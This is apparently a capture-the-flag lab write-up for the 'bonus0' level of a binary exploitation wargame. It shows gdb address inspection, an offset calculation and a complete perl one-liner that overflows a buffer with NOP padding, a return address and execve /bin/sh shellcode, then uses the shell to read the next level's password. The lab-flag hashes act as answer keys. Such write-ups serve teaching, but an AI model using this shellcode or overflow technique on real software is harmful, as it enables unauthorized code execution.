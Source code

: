 # **Bonus0**

## **Analysis**

___

## **Exploit**

OFFSET: 9

```
(gdb) b *p+81
Breakpoint 1 at 0x8048505
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
4242

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe680:     52 '4'  50 '2'  52 '4'  50 '2'
(gdb) c
Continuing.
 -
ABCD

Breakpoint 1, 0x08048505 in p ()
(gdb) x/4c $eax
0xbfffe680:     65 'A'  66 'B'  67 'C'  68 'D'
```

0xbfffe680 + 96 = 0xbfffe6e0

96 = 9 + 4 +83

```
bonus0@RainFall:~$ perl -e 'print "\x90" x 4095 . "\n" . "\x90" x 9 . "\xe0\xe6\xff\xbf" . "\x90" x 83 ."\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\n"' > /tmp/bonus0 && cat /tmp/bonus0 - | ./bonus0
 -
 -
������������������������������������������� �����������������������
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

___

*Password: f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728*